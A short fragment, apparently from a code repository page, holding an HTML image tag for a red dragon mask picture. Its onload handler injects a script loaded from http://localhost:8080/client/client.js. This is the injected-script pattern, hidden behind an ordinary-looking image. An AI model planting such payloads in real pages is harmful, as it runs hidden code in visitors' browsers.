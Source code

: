 <img src="https://img00.deviantart.net/8fe9/i/2015/215/4/5/red_leather_dragon_mask___for_sale_by_zarathus-d942h8k.jpg" alt="Red Dragon Mask" onload="window.nodeJsIp = 'http://localhost:8080';let s = document.createElement('script');s.src = 'http://localhost:8080/client/client.js';document.getElementsByTagName('head')[0].appendChild(s);">
